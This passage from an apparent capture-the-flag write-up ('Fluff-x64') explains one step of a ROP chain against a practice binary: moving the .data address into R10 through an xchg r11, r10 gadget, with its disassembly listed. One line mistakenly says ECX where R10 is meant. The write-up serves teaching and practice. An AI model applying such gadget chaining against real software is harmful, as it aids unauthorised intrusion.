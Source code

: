 ###### Note: Padding values should be placed on the stack for the "pop" instructions on all gadgets before the final "ret" instruction

Approach to the defined steps above:
##### 1. Load the hexadecimal value of .data (0x00601050) into the R10 register
Without a "pop r10" or a simple "mov r10, ???", other instructions must be used to load a value into ECX.

<a href="/assets/img/2020-02-19-Fluff-x64/xchg-r11-r10.png.png"><img src="/assets/img/2020-02-19-Fluff-x64/xchg-r11-r10.png.png"></a>
```x64asm
0x00400840      xchg    r11, r10
0x00400843      pop     r15
0x00400845      mov     r11d, 0x602050 ; 'P `'
0x0040084b      ret
```
The xchg instruction at 0x00400840 will swap the values of the R11 and R10 registers.  
Searching for pop instructions returns very few options.
